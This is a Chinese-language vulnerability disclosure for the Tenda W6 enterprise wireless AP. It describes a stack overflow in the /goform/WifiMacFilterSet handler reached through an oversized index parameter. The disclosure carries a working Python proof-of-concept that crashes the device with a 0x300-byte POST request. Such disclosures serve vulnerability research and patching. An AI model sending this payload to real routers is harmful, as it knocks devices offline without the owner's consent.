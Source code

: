 # Tenda W6 栈溢出漏洞

## 设备漏洞介绍 
Tenda W6是中国深圳腾达科技（Tenda）公司的一款企业无线AP路由器。

Tenda W6 V1.0.0.9(4122) 版本中的/goform/WifiMacFilterSet存在栈溢出漏洞，攻击者可利用此漏洞通过index参数导致拒绝服务 (DoS)。

固件下载地址：https://www.tenda.com.cn/download/detail-2576.html

## 漏洞位置
/goform/WifiMacFilterSet

formWifiMacFilterSet()函数

![image-20220708145019201](pic/image-20220708145019201.png)

v12变量栈溢出劫持程序

## Exp

```python
import requests
from pwn import *

burp0_url = "http://192.168.5.1/goform/WifiMacFilterSet"
burp0_headers = {"Host":"192.168.5.1",
"Content-Length":"295",
"Accept":"*/*",
"X-Requested-With":"XMLHttpRequest",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36",
"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
"Origin":"http://192.168.5.1",
"Referer":"http://192.168.5.1/main.html",
"Accept-Encoding":"gzip, deflate",
"Accept-Language":"en-US,en;q=0.9",
"Cookie":"user=",
"Connection":"close"}

data1="index="+'a'*0x300

requests.post(burp0_url,headers=burp0_headers,data=data1, verify=False,timeout=1)

```
## [演示过程请看视频](./video/1.mp4)